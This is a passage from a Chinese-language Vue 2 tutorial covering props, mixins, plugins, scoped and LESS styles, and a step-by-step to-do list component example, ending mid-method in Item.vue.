编写App组件管理Student组件，可以看到组件每次使用标签`<Student/>`是new一个全新的VueComponent，如果此时需要从外部传入数据到Student组件，来new出一个全新的VueComponent，并且数据是不一样的。

* 先将Student组件中要传递变化的值从data中去除

  ```vue
  <template>
    <div class="info">
      <h1>{{msg}}</h1>
      <h2>学生名称：{{ name }}</h2>
      <h2>学生性别：{{ sex }}</h2>
      <h2>学生年龄：{{ age }}</h2>
    </div>
  </template>
  
  <script>
  export default {
    name: 'StudentInfo',
    data() {
      return {
        msg:'学生信息：'
      }
    }
  }
  </script>
  
  <style>
  .info {
    background-color: antiquewhite;
  }
  </style>
  ```

* 使用props配置一个数组，数字的元素就是要动态传入的值，顺序不影响

  ```vue
  <template>
    <div class="info">
      <h1>{{msg}}</h1>
      <h2>学生名称：{{ name }}</h2>
      <h2>学生性别：{{ sex }}</h2>
      <h2>学生年龄：{{ age }}</h2>
    </div>
  </template>
  
  <script>
  export default {
    name: 'StudentInfo',
    data() {
      return {
        msg:'学生信息：'
      }
    },
    props:['name','sex','age']
  }
  </script>
  
  <style>
  .info {
    background-color: antiquewhite;
  }
  </style>
  ```

* 在外部App引入组件标签位置，给标签直接数组属性值

  ```vue
  <template>
    <div>
      <Student name="zhuzhe" sex="男" age='26'/>
      <Student name="cxr" sex="男" age='22'/>
      <Student name="cxk" sex="女" age='28'/>
    </div>
  </template>
  
  <script>
  import Student from "./components/Student";
  export default {
    name:'App',
    components: {Student}
  }
  </script>
  
  <style>
  
  </style>
  ```

* 这样Student组件就可以根据不同传参内容，展示不同效果

  

将一个学生的年龄展示时+1

使用前面默认的传参会将值转为字符串，需要使用v-bind。

v-bind的功能，将值变为js表达式，则传入是数字就是数字，字符串就是字符串。

App.vue

```vue
<template>
  <div>
    <Student name="zhuzhe" sex="男" v-bind:age="26"/>
  </div>
</template>

<script>
import Student from "./components/Student";
export default {
  name:'App',
  components: {Student}
}
</script>

<style>

</style>
```

Student.vue

```vue
<template>
  <div class="info">
    <h1>{{msg}}</h1>
    <h2>学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>学生年龄：{{ age+1 }}</h2>
  </div>
</template>

<script>
export default {
  name: 'StudentInfo',
  data() {
    return {
      msg:'学生信息：'
    }
  },
  props:['name','sex','age']
}
</script>

<style>
.info {
  background-color: antiquewhite;
}
</style>
```

#### 注意点


props具有三种写法，实际常用第一种，其他两种是在数据敏感性高时才进行指定，比如商品的必然需要价值属性的。

```js
props:['name','sex','age']//写法1：简单声明接收，注意不用写没有的属性，并且prop是只读属性，尽量不要修改避免Vue出现问题

//写法2：接收的同时对数据进行类型限制
/*props:{
    name:String,
    age:Number,
    sex:String
  }*/

//写法3：接收的同时对数据进行类型限制+默认值的指定+必要性的限制
/*props: {
    name: {
      type: String, //name的类型是字符串
      required: true//name字段是必要的
    },
    age: {
      type: Number,
      default: 99 //默认值
    },
    sex: {
      type: String,
      required: true
    }
  }*/
```


props是只读属性复数形式，VueComponent实例中的prop就是指单个外部传入的只读属性。

```js
 methods:{
     updateAge(){
         this.age = 22;//尝试修改prop外部传入的只读属性
     }
 },
```


（修改是可以修改，但这会导致Vue出现奇怪的错误。）


prop只读属性不能直接修改，如果有修改场景，建议在data中定义好属性，并接收来自外部只读属性的值，再去更改data中的值。

```js
<template>
  <div class="info">
    <h1>{{ msg }}</h1>
    <h2>学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
<!--    <h2>学生年龄：{{ age + 1 }}</h2>-->
    <h2>学生年龄：{{ myAge + 1 }}</h2>
    <button @click="updateAge">尝试修改收到的年龄</button>
  </div>
</template>

<script>
export default {
  name: 'StudentInfo',
  data() {
    return {
      msg: '学生信息：',
      myAge:this.age//因为外部属性的读取优先度高，所以在定义data时必然已存在外部属性name，拿过来赋值，那对这个属性的修改就可以了
    }
  },
  methods:{
    updateAge(){
      //this.age = 22;//尝试修改prop外部传入的只读属性
      this.myAge++;
    }
  },
  props:['name','sex','age']//写法1：简单声明接收，注意不用写没有的属性，并且prop是只读属性，尽量不要修改避免Vue出现问题

  //写法2：接收的同时对数据进行类型限制
  /*props:{
    name:String,
    age:Number,
    sex:String
  }*/

  //写法3：接收的同时对数据进行类型限制+默认值的指定+必要性的限制
  /*props: {
    name: {
      type: String, //name的类型是字符串
      required: true//name字段是必要的
    },
    age: {
      type: Number,
      default: 99 //默认值
    },
    sex: {
      type: String,
      required: true
    }
  }*/
}
</script>

<style>
.info {
  background-color: antiquewhite;
}
</style>
```


传参不能传递敏感词汇，比如key、ref

App.vue


Student.vue


浏览器提示：


### 配置项mixin(组件配置项的抽象封装)

```
混合
```

在编写组件时，类似Student和School组件，都有一个相同的配置项，一个methods方法中只有一个showName方法来弹框输出内容。而使用mixin是可以将这种多个组件相同的地方提取出来，让组件去调它们就行。（抽象封装）


* 定义mixin.js文件，并进行 分别暴露

  ```js
  export const hunhe = {
      methods:{
          showName(){
              alert(this.name)
          }
      }
  }
  ```

  

* 在Students.vue和School.vue这两个组件中引入

  

  

* 项目编译，运行效果

  

* 这种方式就可以用来定义统一的生命周期处理

  

  

* 也可以用来定义data，主要的逻辑是如果你data中没有，则追加，有就不碰。

  

  School自己有一个x:300，所以不会被替换

  

  

* 也可以用来灵活引用，比如前面School引用了混合模块2，Student.vue没有引用，则这里两个组件会有差别

  

  

* 生命周期函数则是不会覆盖，如果组件和mixin中都写了，那是具有两个生命周期函数

  

  

  

* 前面是一个组件Student.vue配置混合，一个组件School.vue配置混合，也可以配置全局混合

  ```
  注释掉前面School和Student中的混合引用，在main.js中添加
  ```

  ```js
  //引入Vue
  import Vue from 'vue'
  //引入App
  import App from './App'
  //引入混合
  import {hunhe,hunhe2} from "@/mixin";
  
  //关闭vue的生产提示
  Vue.config.productionTip=false
  Vue.mixin(hunhe)
  Vue.mixin(hunhe2)
  
  //创建Vue实例
  new Vue({
      el:'#app',
      render: h => h(App)
  })
  ```

  当这样配置后，将会对项目中所有的Vue实例、VueComponent组件实例都添加混合模块。

  我们可以在浏览器的控制台中看到：

  

  3个连续代表的是：App.vue、Student.vue、School.vue三个组件的混合模块，生命周期函数调用。

  1个代表的是：Vue实例的生命周期行数调用

  也可以在Vue开发工具中检查每个被混合追加数据的实例

  

  

  

  


全部代码：


mixin.js

```js
export const hunhe = {
    methods:{
        showName(){
            alert(this.name)
        }
    },
    mounted() {//完成挂载时
        console.log('mounted(mixin)...')
    }
}
export const hunhe2 = {
    data(){
        return{
            x:100,
            y:200
        }
    }
}
```

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入混合
import {hunhe,hunhe2} from "@/mixin";

//关闭vue的生产提示
Vue.config.productionTip=false
Vue.mixin(hunhe)
Vue.mixin(hunhe2)

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App)
})
```

App.vue

```vue
<template>
  <div>
    <Student/>
    <School/>
  </div>
</template>

<script>
import Student from "./components/Student";
import School from "./components/School";

export default {
  name:'App',
  components: {Student,School}
}
</script>

<style>

</style>
```

Student.vue

```vue
<template>
  <div class="info">
    <h2 @click="showName">学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
  </div>
</template>

<script>
//引入一个混合
//import {hunhe} from '../mixin'

export default {
  name: 'StudentInfo',
  data() {
    return {
      name: 'zhuzhe',
      sex:'男'
    }
  },
  //mixins:[hunhe]
}
</script>

<style>
.info {
  background-color: antiquewhite;
}
</style>
```

School.vue

```vue
<template>
  <div class="info">
    <h2 @click="showName">学校名称：{{ name }}</h2>
    <h2>学校地址：{{ addr }}</h2>
  </div>
</template>

<script>
//引入一个混合
//import {hunhe,hunhe2} from '../mixin'

export default {
  name: 'SchoolInfo',
  data() {
    return {
      name: '白云大学',
      addr:'广州白云区',
      x:300
    }
  },
  // mounted() {
  //   console.log('mounted(School)...')
  // },
  //mixins:[hunhe,hunhe2]
}
</script>

<style>
.info {
  background-color: antiquewhite;
}
</style>
```


### 插件

```
增强Vue
```

插件本质是一个对象，对象中包含方法install


1. 编写插件

   

   ```js
   export default {
       install(Vue,params1,params2,params3){//这里可以接收到Vue构造函数
           console.log('plugins install...',params1,params2,params3)
           //可以用来定义全局过滤器
           Vue.filter('myFilter',function (value) {
               return value.slice(0,4);
           })
   
           //全局自定义指令
           Vue.directive('fbind',{
               bind(element,binding){//当指令与元素成功绑定时调用
                   console.log("bind")
                   element.value = binding.value;//给input绑定数据对象
               },
               inserted(element,binding){//指令所在元素被插入页面时调用
                   console.log("inserted")
                   element.focus();//给input获取焦点
               },
               update(element,binding){//指令所在模板被重新解析时调用
                   console.log("update")
                   //数据对象关系时，关系模板并获取焦点
                   element.value = binding.value;
                   element.focus();
               }
           })
   
           //定义混入
           Vue.mixin({
               data(){
                   return{
                       x:100,
                       y:200
                   }
               }
           })
   
           //给Vue原型添加方法(vm和vc就都可以使用)
           Vue.prototype.hello = ()=> {alert('hello')}
       }
   }
   ```

2. 安装插件

   在Vue实例化之前，将插件进行使用

   

   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App
   import App from './App'
   //引入插件
   import plugins from "@/plugins";
   
   //关闭vue的生产提示
   Vue.config.productionTip=false
   //使用插件
   Vue.use(plugins,'a',99,null)//可以传参
   
   //创建Vue实例
   new Vue({
       el:'#app',
       render: h => h(App)//全局的实例都有插件中的data追加值
   })
   ```

3. 应用插件

   在前面提到的Student.vue和School.vue中使用插件（组件通过原型链找到Vue原型对象）

   Student.vue

   ```vue
   <template>
     <div class="info">
       <h2>学生名称：{{ name }}</h2>
       <h2>学生性别：{{ sex }}</h2>
       <input type="text" v-fbind:value="name"><!--使用插件中的自定义指令-->
     </div>
   </template>
   
   <script>
   export default {
     name: 'StudentInfo',
     data() {
       return {
         name: 'zhuzhe',
         sex:'男'
       }
     }
   }
   </script>
   
   <style>
   .info {
     background-color: antiquewhite;
   }
   </style>
   ```

   School.vue

   ```vue
   <template>
     <div class="info">
       <h2>学校名称：{{ name | myFilter}}</h2><!--使用插件中的全局过滤器-->
       <h2>学校地址：{{ addr }}</h2>
       <button @click="testHello">点我测试hello</button><!--使用插件中的hello原型方法-->
     </div>
   </template>
   
   <script>
   export default {
     name: 'SchoolInfo',
     data() {
       return {
         name: '白云大学abcdefg',
         addr:'广州白云区'
       }
     },
     methods:{
       testHello(){
         this.hello();
       }
     }
   }
   </script>
   
   <style>
   .info {
     background-color: antiquewhite;
   }
   </style>
   ```

   在浏览器中查看插件的混入对象

   

4. 启动Vue

   

插件的功能就是可以获取到Vue的构造函数，那我们之前所提到的所有全局定义都可以在里面实现。也包括定义原型方法。（就是在原本的Vue使用基础上，引入插件就让当前Vue拥有了很多全局定义方法）

这里场景定义有：

* 混入对象
* 过滤器
* 自定义指令
* 原型函数
* ...


### scoped样式

在Vue脚手架中，编写多个组件，其样式`<style>`最终在编译时是汇总到一起的。当汇总到一起，就会引发一些问题：类名冲突

类名冲突：冲突的样式，会被最后引入的组件的冲突样式所覆盖。

例子：组件样式冲突，引入顺序Student>School


School后引入，最终将覆盖Student的样式，全背景都是蓝色的


> 解决方法

在组件的样式中加入scoped，让样式只负责当前组件区域。

School.vue

```vue
<template>
  <div class="info">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ addr }}</h2>
  </div>
</template>

<script>
export default {
  name: 'SchoolInfo',
  data() {
    return {
      name: '白云大学',
      addr:'广州白云区'
    }
  }
}
</script>

<style scoped>
.info {
  background-color: deepskyblue;
}
</style>
```

效果：


内部原理：

1. 给最外边的标签添加唯一标识属性
2. 对css样式追加识别这一个属性的功能


#### 注意点

App组件是所有组件的头部，通常所有组件都需要的样式才会定义在App中，通常这里是不建议使用scoped的

#### css & less

`<style>`标签中支持CSS语言和LESS语言。但Vue脚手架不支持，需要安装less加载器


安装less加载器

```shell
npm i less-loader
```


现在用的是webpack5，所以能够正常安装，如果是4则可能会有版本兼容问题，因为上面命令下载的是最新版本的less-loader

查看webpack的所有版本

```shell
npm view webpack versions
```

查看less-loader的所有版本

```shell
npm view less-loader versions
```

通常webpack4是对于less-loader7的，可以指定版本进行安装

```shell
npm i less-loader@7
```


安装完毕之后，接下来就是编写less。less的一个特点就是可以嵌套写。

```vue
<template>
  <div class="info">
    <h2>学生名称：{{ name }}</h2>
    <h2 class="zhuzhe">学生性别：{{ sex }}</h2>
  </div>
</template>

<script>
export default {
  name: 'StudentInfo',
  data() {
    return {
      name: 'zhuzhe',
      sex:'男'
    }
  }
}
</script>

<!--
<style lang="css">
.info {
  background-color: antiquewhite;
}
</style>-->
<style lang="less">
.info {
  background-color: antiquewhite;
  .zhuzhe{
    font-size: 40px;
  }
}
</style>
```

效果：


### 案例：代办事项

```
实现一个类似标签的功能，在输入框输入内容，回车后会在下面的列表中展示。并且代办事项可以勾选标识完成，最底下展示一个完成的结果。
```

1. 实现静态组件：抽取组件，使用组件实现静态页面效果
2. 展示动态数据：
   1. 数据的类型、名称
   2. 数据保存在哪个组件
3. 交互——从绑定时间监听开始

#### 流程1：需求分析，功能可以拆分几个组件？

按照结构划分：

* App组件
* 功能组件

按照功能划分：

* 组件1（Header）：input框一个组件，因为这一个input框具备了很多功能。
* 组件2（List）：展示列表，展示组件1传递过来的数据项
* 组件3（Item）：列表中的每一项，因为每一项都是相同的，并且具备了勾选、删除功能
* 组件3（Footer）：汇总展示，有操作组件2的一些功能


最终的结构是：

* App组件：
  * Header组件
  * List组件
    * item组件
  * Footer组件


#### 流程2：静态编写，不考虑交互，先一个个组件静态编写出来

在实际开发中，常接触到是将老项目改为Vue项目，这时候先不急把前端代码拆分，把前端的标签和样式先统一复制到App.vue中

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <div class="todo-header">
          <input type="text" placeholder="请输入你的任务名称：按回车键确认">
        </div>
        <ul class="todo-main">
          <li>
            <label>
              <input type="checkbox">
              <span>xxxxxx</span>
            </label>
            <button class="btn btn-danger" style="display: none">删除</button>
          </li>
          <li>
            <label>
              <input type="checkbox">
              <span>xxxxxx</span>
            </label>
            <button class="btn btn-danger" style="display: none">删除</button>
          </li>
        </ul>
        <div class="todo-footer">
          <label>
            <input type="checkbox">
          </label>
          <span>
            <span>已完成0</span> / 全部2
          </span>
          <button class="btn btn-danger">清除已完成任务</button>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter}
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}

.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}

.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

/*Header*/
.todo-header input{
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus{
  outline: none;
  border-color: rgba(82,168,236,0.8);
  box-shadow: inset 0 1px 1px rgba(0,0,0,0.075), 0 0 8px rgba(82,168,236,0.6);
}

/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}

/*Item*/
li{
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label{
  float: left;
  cursor: pointer;
}

li label li input{
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button{
  float: right;
  display: none;
  margin-top: 3px;
}

li:before{
  content: initial;
}

li:last-child{
  border-bottom: none;
}

/*Footer CSS*/
.todo-footer{
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label{
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input{
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button{
  float: right;
  margin-top: 5px;
}
</style>
```


开始拆分代码：先拆结构后拆样式


**先拆结构**

**MyHeader**


```vue
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称：按回车键确认">
  </div>
</template>

<script>
  export default {
    name:'MyHeader'
  }
</script>

<style>

</style>
```

**List**


```vue
<template>
  <ul class="todo-main">
    <li>
      <label>
        <input type="checkbox">
        <span>xxxxxx</span>
      </label>
      <button class="btn btn-danger" style="display: none">删除</button>
    </li>
    <li>
      <label>
        <input type="checkbox">
        <span>xxxxxx</span>
      </label>
      <button class="btn btn-danger" style="display: none">删除</button>
    </li>
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List'
  }
</script>

<style>

</style>
```

**MyFooter**


```vue
<template>
  <div class="todo-footer">
    <label>
      <input type="checkbox">
    </label>
    <span>
            <span>已完成0</span> / 全部2
          </span>
    <button class="btn btn-danger">清除已完成任务</button>
  </div>
</template>

<script>
  export default {
    name:'MyFooter'
  }
</script>

<style>

</style>
```


**Item**



```vue
<template>
  <li>
    <label>
      <input type="checkbox">
      <span>xxxxxx</span>
    </label>
    <button class="btn btn-danger" style="display: none">删除</button>
  </li>
</template>

<script>
  export default {
    name:'Item'
  }
</script>

<style>

</style>
```


**再拆样式**

全局样式放在App


MyHeader.vue

```vue
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称：按回车键确认">
  </div>
</template>

<script>
  export default {
    name:'MyHeader'
  }
</script>

<style scoped>
/*Header*/
.todo-header input{
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus{
  outline: none;
  border-color: rgba(82,168,236,0.8);
  box-shadow: inset 0 1px 1px rgba(0,0,0,0.075), 0 0 8px rgba(82,168,236,0.6);
}
</style>
```

List.vue

```vue
<template>
  <ul class="todo-main">
    <Item/>
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List',
    components: {Item}
  }
</script>

<style scoped>
/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

Item.vue

```vue
<template>
  <li>
    <label>
      <input type="checkbox">
      <span>xxxxxx</span>
    </label>
    <button class="btn btn-danger" style="display: none">删除</button>
  </li>
</template>

<script>
  export default {
    name:'Item'
  }
</script>

<style scoped>
/*Item*/
li{
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label{
  float: left;
  cursor: pointer;
}

li label li input{
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button{
  float: right;
  display: none;
  margin-top: 3px;
}

li:before{
  content: initial;
}

li:last-child{
  border-bottom: none;
}
</style>
```

MyFooter.vue

```vue
<template>
  <div class="todo-footer">
    <label>
      <input type="checkbox">
    </label>
    <span>
      <span>已完成0</span> / 全部2
    </span>
    <button class="btn btn-danger">清除已完成任务</button>
  </div>
</template>

<script>
  export default {
    name:'MyFooter'
  }
</script>

<style scoped>
/*Footer*/
.todo-footer{
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label{
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input{
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button{
  float: right;
  margin-top: 5px;
}
</style>
```


#### 流程3：将静态改为动态

> 将列表动态化

**确定数据的结构**

在Js中，存储数据无非两种结构，一种是数组，一种是对象。根据操作的每一个数据项，一条数据可以新增，可以勾选，可以删除。

可以使用：`[{},{}...]`结构

**确定数据的保存位置**

暂时不清楚：谁用数据就给谁——List.vue

给`List.vue`提供数据对象。

```vue
<template>
  <ul class="todo-main">
    <Item v-for="todo of todos" :key="todo.id" :todo="todo"/>
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List',
    components: {Item},
    data(){
      return{
        todos:[
          {id:'001',title:'吃饭',done:true},
          {id:'002',title:'睡觉',done:false},
          {id:'003',title:'抽烟',done:true}
        ]
      }
    }
  }
</script>

<style scoped>
/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

使用v-for来编译Item，将数组中的对象每个传递进`Item.vue`，Item使用props来接收数据。

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done">
      <span>{{todo.title}}</span>
    </label>
    <button class="btn btn-danger" style="display: none">删除</button>
  </li>
</template>

<script>
  export default {
    name:'Item',
    props:['todo'],//声明接收todo对象
    mounted() {
      console.log(this.todo)
    }
  }
</script>

<style scoped>
/*Item*/
li{
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label{
  float: left;
  cursor: pointer;
}

li label li input{
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button{
  float: right;
  display: none;
  margin-top: 3px;
}

li:before{
  content: initial;
}

li:last-child{
  border-bottom: none;
}
</style>
```


> 将输入框动态化

输入框的数据最终是保存成一个对象，由于目前只有前端，维护一个对象数组，在其他组件下需要处理id的全局唯一。使用nanoid

需要安装

```shell
npm i nanoid
```


使用方式

```js
//导入模块
import {nanoid} from 'nanoid'
//调用方法返回
const todo = {id:nanoid(),title:event.target.value,done:false};
```


在制作这一个输入框数据添加到列表中的功能时，发现一个问题：

之前的数据是存储在List组件中，而新数据是在Header组件中，两个组件是兄弟关系，没法传递数据。


在后面有教很多其他方法，这里只用当前知识，可以得出：

数据数组从List组件上移到App组件，App和List组件是父传子，使用props方法。Header和App是使用子传父，使用函数回调方法。

回调函数（App有一个函数addTodo，但是不知道什么时候调用。Header知道什么时候调用该函数，App就将函数以参数形式传递给Header，当Header创建完Todo时就会调用App的addTodo方法，App的方法被调用就会去操作todos添加进新数据。）


List.vue

```vue
<template>
  <ul class="todo-main">
    <Item v-for="todo of todos" :key="todo.id" :todo="todo"/>
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List',
    components: {Item},
    props:['todos']
  }
</script>

<style scoped>
/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader :addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos"/>

        <MyFooter/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]
    }
  },
  methods:{
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    }
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```

MyHeader.vue

```vue
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称：按回车键确认" @keyup.enter="add"><!--v-model="title"-->
  </div>
</template>

<script>
import {nanoid} from 'nanoid'

  export default {
    name:'MyHeader',
    /*data(){
      return{
        title:''
      }
    },*/
    methods:{
      add(event){
        //获取输入框的内容
        //console.log(event.target.value)
        //通过双向绑定实现
        //console.log(this.title)

        //空判
        if (!event.target.value.trim()) return alert("输入不能为空！") ;
        //将用户的输入包装成一个对象 ，受用uuid的变种nanoid
        const todo = {id:nanoid(),title:event.target.value,done:false};
        console.log(todo)
        //调用父组件传递的方法，将数据回传给父组件
        this.addTodo(todo);
        //添加完后，清空输入框
        event.target.value =  '';
      }
    },
    props:['addTodo']
  }
</script>

<style scoped>
/*Header*/
.todo-header input{
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus{
  outline: none;
  border-color: rgba(82,168,236,0.8);
  box-shadow: inset 0 1px 1px rgba(0,0,0,0.075), 0 0 8px rgba(82,168,236,0.6);
}
</style>
```


> 实现列表的勾选功能

* 勾选和取消勾选的前提是拿到item的id

* 数据在哪里，操作数据的方法就在那里，所以更改状态的操作是在App组件中

  

* 所以最终要将App的回调函数传递给List，List再传递给Item，Item调用时回调App、

* 这里也支持另外一种写法：引用传递

  * 之前提到Item中的todo是props传递进来的，props标识属性是只读的不能修改

  * 这里的只读指的是传递的参数本身，即我传递一个基本数据类型的值时，我确实不能修改

  * 但我传递的是一个对象时，这里的只读指我不能修改参数所指对象的地址，但我修改对象的内部属性是可以。（Vue只能监测到对象的地址被替换修改，不能监测到对象内部的变动）

    

    （这种方式可以实现效果，但Vue官方只规定了改属性只读不能修改，是这一个只读范围是否类似Java的引用传递，还是强制规定但我们钻空子。都不建议去使用）

这是使用正常的传递多层回调函数的写法：

App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader :addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos" v-bind:checkTodo="checkTodo"/><!--传递一个数据对象，传递一个回调函数-->

        <MyFooter/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]
    }
  },
  methods:{
    //添加一个todo
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    },
    //选择或取消选择一个todo
    checkTodo(id){
      this.todos.forEach((todo)=>{
        if (todo.id === id)todo.done = !todo.done;//将值取反
      })
    }
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```

List.vue

```vue
<template>
  <ul class="todo-main">
    <Item
        v-for="todo of todos"
        :key="todo.id"
        :todo="todo"
        :checkTodo="checkTodo"
    /><!--将App的回调函数传递给Item-->
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List',
    components: {Item},
    props:['todos','checkTodo']
  }
</script>

<style scoped>
/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

Item.vue

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
      <span>{{todo.title}}</span>
    </label>
    <button class="btn btn-danger" style="display: none">删除</button>
  </li>
</template>

<script>
  export default {
    name:'Item',
    props:['todo','checkTodo'],//声明接收todo对象
    mounted() {
      console.log(this.todo)
    },
    methods:{
      handleCheck(id){
